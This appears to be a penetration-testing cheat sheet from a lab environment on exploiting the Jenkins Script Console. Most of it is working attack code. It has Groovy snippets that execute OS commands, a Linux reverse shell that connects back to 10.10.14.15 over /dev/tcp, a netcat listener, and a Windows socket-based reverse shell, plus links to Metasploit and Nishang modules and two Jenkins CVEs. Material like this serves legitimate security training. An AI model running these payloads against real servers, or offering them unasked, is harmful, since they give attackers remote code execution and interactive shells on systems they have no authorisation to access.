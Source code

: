 ## Script Console
http://jenkins.inlanefreight.local:8000/script
- Allow us to run Apache Groovy scripts
```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

**Reverse Shell
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
- Metasploit: https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/
```
nc -lvnp 8443
```

**Against a Windows Host
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```
```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Miscellaneous Vulnerabilities
- CVE-2019-1003000
- CVE-2018-1999002
